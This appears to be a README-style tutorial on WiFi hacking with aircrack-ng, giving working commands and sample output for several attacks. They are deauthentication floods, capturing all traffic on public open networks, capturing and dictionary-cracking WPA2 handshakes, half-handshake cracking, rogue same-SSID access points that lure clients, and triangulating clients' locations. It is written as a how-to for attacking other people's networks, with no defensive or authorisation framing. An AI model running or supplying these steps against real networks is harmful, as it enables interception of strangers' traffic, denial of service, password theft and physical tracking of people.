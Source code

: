 # WiFi hacking

##Getting started
For many of these examples I'll be making use of the [aircrack suite](http://www.aircrack-ng.org/) which is a tool designed for WiFi hacking.

Some of these attacks require multiple WiFi devices. Your chipset may or may not have all the required built in functionality for these attacks, so I recommend buying one you know is compatible. I know the [Ralink RT3070](http://www.amazon.com/gp/product/B009UWLF62/ref=oh_aui_detailpage_o01_s00?ie=UTF8&psc=1) is completely compatible with everything in this post.
 
Many of these attacks also require your device be put into **monitor mode** which can be done with the following aircrack command

``` bash
$ airmon-ng <start|stop> <interface>
```

This creates a new interface (for this post it's assumed this is **mon0**) and puts it in monitor mode.


There are different attacks one can perform depending on a number of factors, however these attacks generally fall into one of the following categories 

 * **Denial of Service:** Prevent a user from using WiFi
 * **Content inspection:** View resources being sent to and from a user 
 * **Content injection:** Send a user malicious content they didn't ask for

Note: Sending packets (generally associated with _Content injection_ and _Denial of Service_) is a destructive process. Your device has to put out RF signals to perform these attacks, and they can be **triangulated back to your location**. Reading packets from around you (generally associated with _Content inspection_) is a non-destructive process. It's impossible for an outside observer to know if your computer is reading packets or not, even if those packets weren't explicitly sent to your device.

I'll be talking about the types of situations you can perform each type of attack.  

##Deauthentication
Built into the 802.11 protocol there is a deauthenticate packet. This packet is normally sent to clients from an Access Point to let the client know the connection is being terminated. It doesn't matter what type of encryption the Access Point is using; these packets look the same regardless. This means they can always be used by an attacker as a _Denial of Service_ and it's often combined with other attacks discussed later. 

This type of attack generally comes in two different flavors seen below

* **Broadcast:** These can are sent from an Access Point to no specified destination address. Many clients will recognize this and drop connection. Below is an example from the aircrack suite to impersonate the Access Point 00:14:6C:7E:40:80 and send a broadcast deauth packet

``` bash
$ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 mon0
```
* **Targeted:** This is sent from an Access Point to a specific client. These are generally considered more effective, as some clients ignore the broadcasts. Below is an example of targeting client 00:0F:B5:34:30:30 impersonating the same access point as above. 

```bash 
$ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

Clients will generally attempt to reconnect after being deauthenticated, however these can be also be repeated (the 1 in the above commands can be changed to the number of repeat times desired).

##Open networks

An open WiFi network is a network that does not use any type of encryption between client and Access Point. These are often found in coffee shops and other public areas.

To view all the open networks in your area you can use the following aircrack command

```bash
$ sudo airodump-ng --encrypt OPN mon0
```

below is a sample output

``` bash
 CH -1 ][ Elapsed: 3 mins ][ 2015-01-11 19:44                                         
                                                                                                                                               
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                                
                                                                                                                                               
 06:1D:D4:2C:ED:60  -88        9        0    0  11  54e  OPN              xfinitywifi                                                          
 16:AB:F0:9F:DC:30  -77        2        0    0   6  54e  OPN              xfinitywifi                                                          
 00:00:00:00:00:00  -72       11        0    0   6  54   OPN              <length:  0>                                                         
 CE:03:FA:DC:2C:94  -49        3        0    0   1  54e. OPN              xfinitywifi                                                          
 10:5F:06:CC:36:98   -1        0        0    0 158  -1                    <length:  0>                                                         
                                                                                                                                                
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                                                                      
                                                                                                                                                
 (not associated)   64:9A:BE:E7:FD:70  -89    0 - 1      0        1                                                                             
 (not associated)   1C:1A:C0:99:13:FA  -61    0 - 1      0       20                                                                             
 (not associated)   8C:3A:E3:70:75:F1  -81    0 - 1      0        2       
```

Above are all Access Points with open networks in range. Below the Access Points are all clients either attached to open networks or not associated.

Because these access points do not require any encryption _Content inspection_ is trivial. The following command can be used to capture all traffic on an Access Point and save it to a pcap file

``` bash
$ sudo airodump-ng -c 11 --bssid 06:1D:D4:2C:ED:60 -w xfinitywifi.pcap mon0
```
Where the channel (-c 11) and bssid (--bssid 06:1D:D4:2C:ED:60) are obtained from the scan above.

Some traffic may be encrypted on the application layer with SSL/TLS, however anything that isn't can be viewed in plain text from this capture file. To view the plain text bits of it you can run **strings** on the file, or you can simply open the file up in [wireshark](https://www.wireshark.org/) for your viewing pleasure.

Clients that are connected to open networks will probably attempt to reconnect if deauthenticated. For this reason you can setup an access point with the same SSID and send deauth packets to connected users until they connect to your access point.

To setup an ad-hoc Access Point the following guide can be used for ubuntu http://ubuntuhandbook.org/index.php/2014/09/3-ways-create-wifi-hotspot-ubuntu/ 

Once you have users connected to your ad-hoc network you are in a position for both _Content Injection_ and _Content inspection_

## WPA/WPA2 networks

The only way to perform _content injection_ or _content inspection_ on a WPA/WPA2 network is to run a dictionary or brute force attack against the authentication handshake. This can be captured and performed locally for a quick crack if you're lucky. Repeating the process for scanning for networks in the previous section, you can scan for networks using the following 

```bash
$ sudo airodump-ng mon0
```
 Because we didn't specify an encryption type this time it will show all available networks. 

Select a WPA/WPA2 network you're interested in and start capturing

``` bash
$ sudo airodump-ng -c 10 --bssid 10:70:CA:BE:AB:EE -w tomsEncryptedNetwork.pcap mon0
```

When a handshake occurs it will display it along the top as seen below

```bash
  CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 10:70:CA:BE:AB:EE
                                                                                                               
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                               
  10:70:CA:BE:AB:EE   39 100       51      116   14   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                               
  BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                               
  10:70:CA:BE:AB:EE  00:0F:B5:FD:FB:C2   35     0      116  
```

You can either wait for a handshake the slow way, or you can deauthenticate user's using above techniques and wait for them to reconnect.

This handshake can now be used with aircrack to perform a dictionary attack locally. The following command can be used to do this 

```bash
aircrack-ng -w passwords.txt -b 10:70:CA:BE:AB:EE tomsEncryptedNetwork.pcap
```

Where password.txt is a file of newline separated likely passwords. You can obtain such a password from a number of places; [I found a few off google](https://wiki.skullsecurity.org/Passwords)

With any luck this will identify the password used, and allow you to then repeat the process from the open network to throw up your own network with the same SSID and password as the encrypted network.

If you capture a full handshake, and you manage to crack the password, you have all the keys necessary to decrypt WPA2 traffic. Each time a client connects new keys are generated, so the handshake is specific to that session. One way to do this is in wireshark, with the following tutorial http://wiki.wireshark.org/HowToDecrypt802.11

If you know the passphrase but you did not capture the full handshake, you will probably not be able to decrypt the traffic from that dump however one thing I noticed is that the Nonces used to calculate the keys in the handshake are often very low entropy and may be predictable.

##WEP Networks

I'm not going to spend too much time talking about WEP networks because they are not as common anymore. The following guide can be used to crack WEP networks http://www.aircrack-ng.org/doku.php?id=simple_wep_crack

##No network, just clients
Clients will send probes asking for WiFi networks with known SSIDs. These are broadcasted out unencrypted. They can be viewed with the same WiFi network monitor command used above

```bash
$ sudo airodump-ng mon0
```

You'll see more of them popping up if you begin sending deauth packets to networks that have lots of clients. 

If you notice a probe for a network that might be open, like 'Public Library Wifi' or something along those lines, you can throw up an ad-hoc network with that SSID and the client will probably connect to you.

If the client is broadcasting a WPA2 network, you can throw up an SSID the same as the one they are looking for, even if the passphrase is wrong, and capture half of the 4 way handshake, and then use this half handshake to run a dictionary attack against the hashed passphrase the client sent you.

Aircrack does not have a built in way of doing this so I wrote a tool for it seen here https://github.com/dxa4481/WPA2-HalfHandshake-Crack

Once cracked, you can throw up an ad-hoc network and have the client probing for that network connect to you.

##Triangulating clients

You'll notice from the above airodump outputs, PWR is an output for each client.

Recreate the airodump output with the following

```bash
$ sudo airodump-ng mon0
```

Although this value is greatly interfered with by walls, people, furniture, and other signal interference obstacles, with some degree of certainty it can be used to approximate that client's location.  

Three wifi devices with identical hardware will be needed at a minimum, though more devices refines the location more accurately.

I've been told due to interference with 3 devices this method will give you a resolution of about 20 feet.
